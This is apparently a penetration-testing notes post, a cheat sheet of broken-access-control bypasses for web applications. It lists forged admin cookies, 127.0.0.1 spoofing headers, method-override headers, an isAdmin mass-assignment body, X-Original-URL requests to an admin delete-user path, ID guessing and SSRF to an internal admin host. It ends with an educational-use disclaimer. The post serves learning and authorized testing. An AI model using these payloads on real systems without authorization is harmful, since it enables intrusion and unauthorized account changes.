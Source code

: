 ```yaml
---
title: BROKEN ACCESS CONTROL
date: 2023-05-10 23:40:20 +/-TTTT
categories: [learning, web]
tags: [ctf]     # TAG names should always be lowercase
---
```


The attacking methodology of broken access control in web applications. If we got 401 or 403 HTTP response, try to bypass it using the following methods in this post.

# Change Header Values

`Cookie`

We may be able to get access to the login-required pages.

```
Cookie: admin=true
Cookie: isAdmin=true
Cookie: access=1
Cookie: access=true
```

# IP Spoofing

```
Cluster-Client-IP: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Original-URL: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1

Host: 127.0.0.1
```

# Change Methods

```
GET, POST, PUT, DELETE, HEAD, TRACE, OPTIONS, PATCH, INVENTED, CONNECT, etc.

# Override to bypass FireWall (via POST /example HTTP/1.1)
X-Method-Override: PUT
X-HTTP-Method-Override: PUT
```

# POST Parameters

```
POST / HTTP/1.1
...

{
    "email": "new-email@example.com",
    "isAdmin": true
}
```

# X-Original-URL, X-Rewrite-URL

```
POST / HTTP/1.1

...
X-Original-URL: /admin/deleteuser
# or
X-Rewrite-URL: /admin/deleteuser
...

username=michael
```

# GET Parameters

```
https://vulnerable.com/account?id=michael
https://vulnerable.com/account?id=admin
https://vulnerable.com/account?id=administrator

# GUID cannot be guessed but it may be found somewhere in the website.
https://vulnerable.com/account?id=7230b2a9-60de-4409-a350-cd14986a8d3e
https://vulnerable.com/account?id=1de655cb-29d7-4008-b434-e688b39f9564
```

# Access Page via SSRF

If there is another website that is owned by same orginazation, we may be able to see the target website with SSRF.

```
https://example.com?url=https://admin.example.com/
```

# Disclaimer
```
Exploit Notes are only for educational purpose or penetration testing, not attacking servers that you're not authorized. This site will not take any responsibility even if you attack the server illegally or cause damage unintentionally. Please use the contents in this site at your own risk.
The contents of this site are not original, but based on the information on the internet, the author actually tried and functioned. Although the author strives to post the latest information on the content of this site as much as possible, there is no guarantee that it will always be new.
```